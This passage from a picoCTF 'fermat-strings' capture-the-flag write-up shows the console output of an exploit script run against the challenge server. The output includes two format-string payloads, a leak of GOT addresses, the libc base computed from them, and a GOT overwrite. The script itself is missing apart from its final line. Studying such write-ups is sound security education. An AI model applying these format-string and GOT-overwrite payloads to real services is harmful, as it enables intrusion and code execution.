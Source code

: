 ```python
io.interactive()
```

This script combines the main building blocks we saw earlier, with some minor adjustments for performing the steps together instead of discretely. The output we get is:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/fermat-strings]
└─$ python3 exploit.py
[*] '/media/sf_CTFs/pico/fermat-strings/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/media/sf_CTFs/pico/fermat-strings/libc6_2.31-0ubuntu9.1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to mars.picoctf.net on port 31929: Done
[*] puts() GOT address: 0x601018
[*] atoi() GOT address: 0x601058
[+] Opening connection to mars.picoctf.net on port 31929: Done
[*] Sending:
    A:
    b'111_%43$s.%44$s.%2066c%45$lln%9c%46$hhn'
    B:
    00000000  31 31 31 31  31 31 31 5f  18 10 60 00  00 00 00 00  │1111│111_│··`·│····│
    00000010  58 10 60 00  00 00 00 00  40 10 60 00  00 00 00 00  │X·`·│····│@·`·│····│
    00000020  42 10 60 00  00 00 00 00                            │B·`·│····│
    00000028
[*] Received:
    00000000  a0 55 2d a9  c4 7f 2e 30  57 29 a9 c4  7f 2e 20 20  │·U-·│··.0│W)··│·.  │
    00000010  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    00000810  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 d8  │    │    │    │   ·│
    00000820  20 20 20 20  20 20 20 20  ae                        │    │    │·│
    00000829
[*] puts() runtime address: 0x7fc4a92d55a0
[*] atoi() runtime address: 0x7fc4a9295730
[*] LibC base address: 0x7fc4a924e000
[*] Sending:
    A:
    b'111_%249c%43$lln%26c%44$hhn%10c%45$hhn%75c%46$hhn%42c%47$hhn%27c%48$hhn'
    B:
    00000000  31 31 31 31  31 31 31 5f  58 10 60 00  00 00 00 00  │1111│111_│X·`·│····│
    00000010  5a 10 60 00  00 00 00 00  59 10 60 00  00 00 00 00  │Z·`·│····│Y·`·│····│
    00000020  5d 10 60 00  00 00 00 00  5b 10 60 00  00 00 00 00  │]·`·│····│[·`·│····│
    00000030  5c 10 60 00  00 00 00 00                            │\·`·│····│
    00000038
[*] Received:
    00000000  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
[*] Received:
    00000000  a0 55 2d a9  c4 7f 2e 30  57 29 a9 c4  7f 2e 20 20  │·U-·│··.0│W)··│·.  │
    00000010  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    00000810  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 d8  │    │    │    │   ·│
    00000820  20 20 20 20  20 20 20 20  ae                        │    │    │·│
    00000829
[*] puts() runtime address: 0x7fc4a92d55a0
[*] atoi() runtime address: 0x7fc4a9295730
[*] LibC base address: 0x7fc4a924e000
```